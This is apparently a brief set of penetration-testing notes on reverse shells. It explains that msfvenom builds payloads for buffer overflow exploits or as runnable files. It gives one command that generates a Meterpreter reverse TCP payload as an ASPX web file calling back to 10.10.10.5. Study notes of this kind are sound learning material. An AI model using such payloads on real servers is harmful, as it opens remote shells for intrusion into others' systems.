 # Reverse Shell

## Using msfvenom

* We can use msfvenom to either create payload in text, used in Buffer overflow exploits, or, create a paylaod file, that could be directly run on vulnerable machine.

### Payload Selection

### Payload creation

* Generally,
  * msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.10.5 LPORT=123 -f aspx &gt; rev\_shell.aspx



